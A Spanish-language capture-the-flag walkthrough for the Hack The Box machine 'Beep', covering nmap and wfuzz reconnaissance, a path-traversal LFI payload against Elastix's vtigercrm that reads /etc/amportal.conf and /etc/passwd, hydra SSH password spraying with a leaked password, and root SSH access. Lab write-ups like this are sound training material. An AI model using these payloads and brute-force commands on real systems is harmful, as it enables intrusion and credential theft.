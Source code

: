 ![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/beep.jpg)

## Linux - Easy
IP = 10.10.10.7

### USER ###

*** 
Ejecutamos nmap 
    
    nmap 10.10.10.7 -p- --open --min-rate 5000 -vv -n -Pn -oG allPorts
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/allports.jpg)

    nmap 10.10.10.7 -sC -sV -p80  -oN targeted

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/targeted.jpg)

Detectamos un apache, openssh, smtp, imap, ssl 
Revisamos la pagina web vemos que es un elastix (https://es.wikipedia.org/wiki/Elastix)

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/elastix.jpg)

realizamos un scaneo de directorios en busca de algo mas de información

    wfuzz -c -t 400 --hc=404 --hh=1785 -L -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.7/FUZZ/
            
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/wfuzz.jpg)

Detectamos varias paginas entre ellas admin accedemos e intentamos conectar con las password por defecto y no funciona.
Buscamos informacion sobre Elastix y encontramos una vulnerabilidad LFI 
(https://www.exploit-db.com/exploits/37637)

    /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
    
Lo ejecutamos y vemos que nos muestra unas credenciales.

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/lfi.jpg)

probamos a ver /etc/passwd para ver los usuarios que tienen bash e intentar conectar con ellos

     /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
     
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/usuarios.jpg)

Sacamos el listado de usuarios y dejamos solo los que tengan bash

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash.jpg)
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/bash2.jpg)


lanzamos hydra para ver si nos conecta por ssh con las credenciales obtenidas.

    hydra 10.10.10.7 ssh -L user.txt -p jEhdIekWmdjE -f -vv
    
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/hydra.jpg)

### ROOT ###

*** 
Accemos con root por ssh

    ssh -o KexAlgorithms=diffie-hellman-group1-sha1 -o Ciphers=aes256-cbc root@10.10.10.7
    
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/ssh.jpg)
 
conseguimos la flag de user.txt

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagUser.txt.jpg)

conseguimos la flag de root.txt

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/beep/flagRoot.jpg)



